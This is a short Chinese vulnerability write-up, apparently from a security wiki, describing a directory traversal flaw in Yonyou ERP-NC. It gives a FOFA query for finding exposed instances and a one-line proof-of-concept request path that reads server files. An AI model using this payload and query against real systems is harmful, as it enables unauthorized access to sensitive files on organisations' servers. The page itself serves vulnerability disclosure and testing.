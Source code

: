 ```yaml
---
title: 用友ERP-NC 目录遍历漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - OA产品漏洞
 - 用友OA
---
```


# 用友ERP-NC 目录遍历漏洞

## 漏洞描述

用友ERP-NC 存在目录遍历漏洞，攻击者可以通过目录遍历获取敏感文件信息

## 漏洞影响

> [!NOTE]
>
> 用友ERP-NC 

##  FOFA

> [!NOTE]
>
> app="用友-UFIDA-NC"

## 漏洞复现

POC为

```
/NCFindWeb?service=IPreAlertConfigService&filename=
```

![](/img/20210924015145772639.png)

查看 ncwslogin.jsp 文件

![](/img/20210924015146036362.png)

## Goby & POC

> [!NOTE]
>
> YongYou ERP-NC directory traversal

![](/img/20210924015146229215.png)